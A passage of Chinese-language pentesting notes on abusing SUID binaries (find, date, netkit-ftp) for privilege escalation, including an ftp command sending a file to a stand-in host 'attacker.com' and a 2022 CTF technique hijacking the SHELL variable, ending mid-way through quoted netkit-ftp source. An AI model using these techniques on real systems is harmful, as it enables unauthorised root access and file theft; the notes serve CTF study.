 ```shell

.nse文件是nmap的定制脚本文件，用lua语言写的
```
但似乎现在已经不行了。
## find
find是个比较常用的命令，find用来在系统中查找文件。通常很少谈到它也有执行系统命令的功能。 因此，如果配置为使用SUID权限运行，则可以通过find执行的命令，并且都将以root身份去运行。但是现在很多系统上find命令默认没有SUID权限
```shell
find . -exec whoami \; -quit
  这个\;必须要有，而且和命令前要有个空格
  -exec：<执行指令>：假设find指令的回传值为True，就执行该指令；
  -true：将find指令的回传值皆设为True； 这个可能会用到
```
## date
#### 读取文件
```shell
命令格式
  date -f/--file <filename>

  -f, --file=DATEFILE：类似于--date; 一次从DATEFILE处理一行。
```
## netkit-ftp/ftp
netkit-ftp和ftp是一个东西
#### 出网
一般情况，ftp提权是在vps上搭建一个ftp服务端作接收端，然后让靶机上的ftp以root权限把文件传送过来就行了
```shell
RHOST=attacker.com
ftp $RHOST
put file_to_send
```
#### 不出网
2022蓝帽杯出了一道不出网的题目<br />蓝帽杯这题比较特殊，他是放在php交互脚本里进行命令执行，没办法在shell中与ftp交互，上面说的那种方式无法实现。<br />这里主要是劫持环境变量SHELL进行命令执行<br />在cmds.c文件中，定位到netkit-ftp源码功能实现代码可知是从系统变量中获取SHELL变量进行执行<br />[https://github.com/mmaraya/netkit-ftp](https://github.com/mmaraya/netkit-ftp)
```c
/*
* Do a shell escape
*/
void
shell(const char *arg)
{
    int pid;
    void (*old1)(int);
    void (*old2)(int);
    char shellnam[40];
    const char *theshell, *namep; 

    old1 = signal (SIGINT, SIG_IGN);
    old2 = signal (SIGQUIT, SIG_IGN);
    if ((pid = fork()) == 0) {
        for (pid = 3; pid < 20; pid++)
            (void) close(pid);
        (void) signal(SIGINT, SIG_DFL);
        (void) signal(SIGQUIT, SIG_DFL);
        //从环境变量中取SHELL变量
        theshell = getenv("SHELL");
        if (theshell == NULL)
            theshell = _PATH_BSHELL;
        namep = strrchr(theshell, '/');
        if (namep == NULL)
```